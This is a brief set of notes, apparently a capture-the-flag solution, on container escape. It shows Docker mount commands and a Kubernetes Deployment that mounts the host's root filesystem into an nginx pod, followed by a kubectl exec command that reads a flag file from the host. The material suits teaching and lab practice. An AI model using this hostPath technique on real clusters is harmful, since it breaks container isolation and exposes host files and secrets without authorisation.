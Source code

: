 ## Docker

mount

mount | grep /mnt

cat /tmp/rootfs/opt/flag.txt

## K8s

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      nodeSelector:
        kubernetes.io/hostname: k3d-sec-server-0
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        - containerPort: 80
        volumeMounts:
        - mountPath: /tmp/rootfs
          name: host-path
      volumes:
      - name: host-path
        hostPath:
          path: /
          type: Directory
```

kubectl exec -it deployment.apps/nginx-deployment -- bash
cat /tmp/rootfs/opt/flag.txt